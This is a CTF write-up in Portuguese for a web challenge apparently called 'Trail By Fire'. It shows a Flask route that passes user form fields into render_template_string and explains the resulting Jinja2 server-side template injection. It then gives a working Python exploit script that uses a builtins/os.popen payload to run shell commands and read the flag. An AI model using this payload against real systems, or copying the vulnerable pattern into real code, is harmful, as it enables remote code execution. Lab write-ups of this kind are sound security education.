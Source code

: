 # Trail By Fire

> As you ascend the treacherous slopes of the Flame Peaks, the scorching heat and shifting volcanic terrain test your endurance with every step. Rivers of molten lava carve fiery paths through the mountains, illuminating the night with an eerie crimson glow. The air is thick with ash, and the distant rumble of the earth warns of the danger that lies ahead. At the heart of this infernal landscape, a colossal Fire Drake awaits—a guardian of flame and fury, determined to judge those who dare trespass. With eyes like embers and scales hardened by centuries of heat, the Fire Drake does not attack blindly. Instead, it weaves illusions of fear, manifesting your deepest doubts and past failures. To reach the Emberstone, the legendary artifact hidden beyond its lair, you must prove your resilience, defying both the drake’s scorching onslaught and the mental trials it conjures. Stand firm, outwit its trickery, and strike with precision—only those with unyielding courage and strategic mastery will endure the Trial by Fire and claim their place among the legends of Eldoria

**Dificuldade:** Muito Fácil  
**Código Fonte:** Disponível  
**Técnicas utilizadas:** SSTI na aplicação com Jinja2

Este foi o primeiro desafio que resolvi neste CTF. Comecei exatamente às 10h da sexta-feira, e acabou sendo um desafio simples.

No arquivo `challenge/application/blueprints/routes.py`, especificamente na rota `/battle-report`, conseguimos identificar o ponto vulnerável::
`<p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>`

Existem outros pontos, mas utilizei este.
```python 
@web.route('/battle-report', methods=['POST'])
def battle_report():
    warrior_name = session.get("warrior_name", "Unknown Warrior")
    battle_duration = request.form.get('battle_duration', "0")

    stats = {
        'damage_dealt': request.form.get('damage_dealt', "0"),
        'damage_taken': request.form.get('damage_taken', "0"),
        'spells_cast': request.form.get('spells_cast', "0"),
        'turns_survived': request.form.get('turns_survived', "0"),
        'outcome': request.form.get('outcome', 'defeat')
    }

    REPORT_TEMPLATE = f"""
    <html>
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Battle Report - The Flame Peaks</title>
        <link rel="icon" type="image/png" href="/static/images/favicon.png" />
        <link href="https://unpkg.com/nes.css@latest/css/nes.min.css" rel="stylesheet" />
        <link rel="stylesheet" href="/static/css/style.css">
    </head>
    <body>
        <div class="nes-container with-title is-dark battle-report">
            <p class="title">Battle Report</p>

            <div class="warrior-info">
                <i class="nes-icon is-large heart"></i>
                <p class="nes-text is-primary warrior-name">{warrior_name}</p>
            </div>

            <div class="report-stats">
                <div class="nes-container is-dark with-title stat-group">
                    <p class="title">Battle Statistics</p>
                    <p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>
                    <p>💔 Damage Taken: <span class="nes-text is-error">{stats['damage_taken']}</span></p>
                    <p>✨ Spells Cast: <span class="nes-text is-warning">{stats['spells_cast']}</span></p>
                    <p>⏱️ Turns Survived: <span class="nes-text is-primary">{stats['turns_survived']}</span></p>
                    <p>⚔️ Battle Duration: <span class="nes-text is-secondary">{float(battle_duration):.1f} seconds</span></p>
                </div>

                <div class="nes-container is-dark battle-outcome {stats['outcome']}">
                    <h2 class="nes-text is-primary">
                        {"🏆 Glorious Victory!" if stats['outcome'] == "victory" else "💀 Valiant Defeat"}
                    </h2>
                    <p class="nes-text">{random.choice(DRAGON_TAUNTS)}</p>
                </div>
            </div>

            <div class="report-actions nes-container is-dark">
                <a href="/flamedrake" class="nes-btn is-primary">⚔️ Challenge Again</a>
                <a href="/" class="nes-btn is-error">🏰 Return to Entrance</a>
            </div>
        </div>
    </body>
    </html>
    """

    return render_template_string(REPORT_TEMPLATE)
```

**Relembrando:** SSTI (Server-Side Template Injection) é uma vulnerabilidade onde a aplicação interpreta dados inseridos pelo usuário diretamente como comandos no mecanismo de template. Nesse caso, o mecanismo é o Jinja2, muito usado com aplicações Flask.

A forma correta de utilizar o jinja2 seria referenciar as variáveis usando `{{ }}` dentro de arquivos `.html` e renderizá-las com segurança através do método `render_template` do Flask. Porém, o desenvolvedor concatenou diretamente as variáveis controlados pelo usuário na string usanda no `render_template_string`, permitindo a execução do código Jinja2.

Podemos confirmar isso com o seguinte comando: `{{7*7}}`.
![Proof of the vulnerability](imgs/poc.png)

Após confirmar a vulnerabilidade, desenvolvi o seguinte script Python para explorá-la:
```python
import argparse
import requests
import re

# Setup command line arguments
parser = argparse.ArgumentParser()
parser.add_argument("--url", type=str, default="http://localhost:1337", help="Target URL")
parser.add_argument("--cmd", type=str, default="cat flag.txt", help="Command to execute remotely")

args = parser.parse_args()
url = args.url
cmd = args.cmd

# Create a session to maintain cookies and session data
session = requests.session()

# Initiate session with warrior name (necessary for the app logic)
session.post(url + "/begin", data={"warrior_name": "aaaa"})

# Craft payload exploiting Jinja2 SSTI vulnerability
payload = f"{{{{self.__init__.__globals__.__builtins__.__import__('os').popen('{cmd}').read()}}}}"

# Send malicious payload to vulnerable endpoint
response = session.post(url + "/battle-report", data={"damage_dealt": payload})

# Extract the flag from the response using regex
match = re.search(r'HTB\{[A-Za-z0-9_]+\}', response.text)

# Print the flag if found, otherwise print response
if match:
    print(match.group())
else:
    print("No flag found.")
```

Após executar o script, a flag foi pega com sucesso:
![Flag](imgs/flag.png)
